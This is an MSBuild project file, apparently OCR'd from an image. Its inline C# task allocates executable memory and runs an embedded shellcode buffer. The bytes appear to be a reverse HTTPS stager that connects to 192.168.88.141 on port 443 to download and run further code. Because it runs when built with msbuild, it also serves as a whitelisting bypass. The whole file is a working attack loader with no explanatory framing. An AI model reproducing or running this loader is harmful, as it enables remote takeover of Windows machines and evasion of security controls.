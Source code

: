 <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
byte[] buf = new byte[478] {
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,
0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,
0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x58,0x20,0x01,0xd3,0x50,0x8b,0x48,0x18,
0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xc1,
0xcf,0x0d,0xac,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,
0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,
0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,
0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x3e,0x00,0x00,0x00,
0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x57,0x69,
0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x54,
0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x37,0x2e,0x30,0x3b,0x20,0x72,0x76,0x3a,
0x31,0x31,0x2e,0x30,0x29,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,
0x6f,0x00,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x03,0x53,0x53,
0x68,0xbb,0x01,0x00,0x00,0xe8,0xb6,0x00,0x00,0x00,0x2f,0x6d,0x57,0x34,0x35,
0x6d,0x43,0x31,0x7a,0x52,0x55,0x49,0x6b,0x39,0x43,0x58,0x31,0x52,0x70,0x42,
0x39,0x44,0x41,0x56,0x2d,0x61,0x6c,0x31,0x66,0x34,0x66,0x50,0x47,0x6a,0x31,
0x43,0x75,0x47,0x00,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,
0x68,0x00,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,
0x3b,0xff,0xd5,0x96,0x6a,0x0a,0x5f,0x68,0x80,0x33,0x00,0x00,0x89,0xe0,0x6a,
0x04,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,
0x53,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,
0x13,0x00,0x00,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x4b,
0x00,0x00,0x00,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x68,0x00,0x00,0x40,0x00,
0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,
0x00,0x20,0x00,0x00,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,
0x74,0xcf,0x8b,0x07,0x01,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,
0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x38,0x38,0x2e,0x31,
0x34,0x31,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };



              
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
